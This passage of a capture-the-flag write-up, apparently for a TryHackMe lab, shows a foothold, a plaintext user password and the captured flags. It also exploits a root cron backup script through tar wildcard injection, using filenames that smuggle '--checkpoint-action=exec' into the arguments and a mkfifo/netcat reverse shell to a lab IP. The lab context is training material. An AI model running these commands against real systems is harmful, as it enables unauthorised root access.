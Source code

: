Got user www-data!

**user.txt**
`7ce5c2109a40f958099283600a9ae807`

`su milesdyson`
`milesdyson:cyborg007haloterminator`


## Priv Esc

`sudo -l`

Nothing

`crontab -l `

No entries

`crontab -e `

`*/1 *  *   *   *   root /home/milesdyson/backups/backup.sh`

[refer](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com)
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.96.175 1234 >/tmp/f" > shell.sh

touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"

touch "/var/www/html/--checkpoint=1"
```

`nc -lnvp 1234`

Got Root!

**root.txt**
`3f0372db24753accc7179a282cd6a949`